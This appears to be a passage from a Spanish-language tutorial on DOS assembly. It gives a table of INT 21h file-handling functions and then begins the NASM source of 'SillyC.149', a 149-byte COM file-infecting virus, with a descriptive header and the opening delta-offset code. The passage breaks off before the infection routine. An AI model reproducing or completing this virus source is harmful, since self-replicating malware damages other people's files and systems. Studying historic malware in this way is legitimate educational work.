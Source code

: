   </tr>
  <tr>
    <td>Establecer puntero de archivo</td>  
    <td>42h</td>  
    <td>AL = código de desplazamiento <br /> BX = handle del archivo <br /> CX = mitad mayor de desplazamiento<br /> DX = mitad menor de desplazamiento</td> 
    <td>Éxito: CF = 0, CX = mitad mayor, DX = mitad menor <br />Error: CF = 1, AX = código de error</td> 
    <td>2+</td>
  </tr>
  <tr>
    <td>Buscar el primer archivo <br />coincidente</td> 
    <td>4Eh</td> 
    <td>CX = máscara de atributos de archivo<br />DS:DX -> nombre del archivo (ASCIZ)</td>
    <td>Éxito: CF = 0, resultado en DTA <br />Error: CF = 1, AX = código de error</td>
    <td>2+</td>
  </tr>
  <tr>
    <td>Buscar el siguiente archivo <br />coincidente</td> 
    <td>4Fh</td>
    <td class="center">-</td> 
    <td>Exito: CF = 0, resultado en DTA <br />Error: CF = 1, AX = código de error</td>  
    <td>2+</td>
  </tr>
</table>
</div>

## Código fuente
{% highlight nasm linenos %}
;##############################################################################  
;# Nombre:        virus://DOS/SillyC.149  
;# Plataforma:    Intel x86  
;# SO:            DOS v2.0+, Win32 (mediante NTVDM)  
;# Lenguaje:      ASM x86-16 (sintaxis Intel)  
;# Herramientas:  TASM v4.1, TLINK v7.1.30.1  
;# Tipo:          Parasitic, Non-Resident, COM infector  
;# Tamaño:        149 bytes  
;# Propagación:   Acción directa sobre el directorio actual.  
;# Infección:     Postpending en archivos COM (no READ-ONLY/HIDDEN/SYSTEM).  
;#                Sin reconocimiento propio.  
;# Residente:     No  
;# Stealth:       No  
;# Payload:       No  
;##############################################################################

.8086  
.model tiny

assume cs:virus, ds:virus

virus segment byte public 'CODE'

    org 100h

start:    
    jmp short body                        ; cabezal, en las siguientes generaciones aquí  
    nop                                   ; habrá un near JMP de 3 bytes
    
    mov ah, 00h                           ; / huésped dummy, solo retorna a DOS  
    int 21h                               ; \

body:    
    call d_offset                         ; calcular delta offset  

d_offset:    
    pop bp  